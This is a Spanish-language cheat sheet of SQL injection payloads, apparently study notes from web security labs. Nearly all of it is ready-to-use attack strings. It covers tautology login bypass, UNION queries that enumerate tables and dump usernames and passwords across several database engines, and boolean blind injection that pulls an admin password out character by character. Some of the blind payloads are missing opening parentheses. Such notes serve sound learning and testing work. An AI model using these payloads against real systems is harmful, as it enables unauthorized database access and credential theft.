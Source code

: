 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

    NOTA: importante definir la columna que sea formato string.

~: separador

ORACLE: || \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

MICROSOFT: + \
ex: 'string'+'string' 

POSTGRESQL: || \
ex: 'string'||'string' 

MySQL: [ ] "space" \
ex: 'string' 'string'

## BLIND SQL INJECTION

    NOTA: importante analizar el comportamiento del site. 

Validar la existencia de una tabla por medio de una consulta booleana, limitando el resultado para no romper la consulta.

' AND SELECT '[value]' FROM [table_name] LIMIT 1)='[value]'--
' AND SELECT 'admin' FROM users LIMIT 1)='[admin]'--

Una vez con el nombre de la tabla, se puede consultar fields especificos cambiando el query y agregando la funcion WHERE:

' AND SELECT [field] FROM [table_name] WHERE [field]='[value]')='[value]'--
' AND SELECT username FROM users WHERE username='admin')='admin'--

_ENUMERAR EL TAMANO DE UN CAMPO ?

' AND SELECT [field_name] FROM [table_name] WHERE [field_name]='[value]' AND LENGTH(field_name)>1)='value'--
' AND SELECT username FROM users WHERE username='admin' AND LENGTH(password)>1)='admin'--

    NOTA: es necesario iterar el numero de posicion hasta no tener expected responses, de esa manera se obtiene la cantidad de caracteres.

_COMO ENUMERAR EL CONTENIDO "STRING" DE UN CAMPO ?

--> funcion substring

El primer numero, por ejemplo, "4", es la posicion a iterar. el segundo numero es a una sola posicion.

Oracle:	SUBSTR('string', 4, 1) \
Microsoft:	SUBSTRING('string', 4, 1) \
PostgreSQL:	SUBSTRING('string', 4, 1) \
MySQL:	SUBSTRING('string', 4, 1)

' AND SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

    NOTA: Por ejemplo para iterar una posible contrasena se debe cambiar la posicion y el valor final a igual, 
    en este caso el numero "1" y la letra "a".





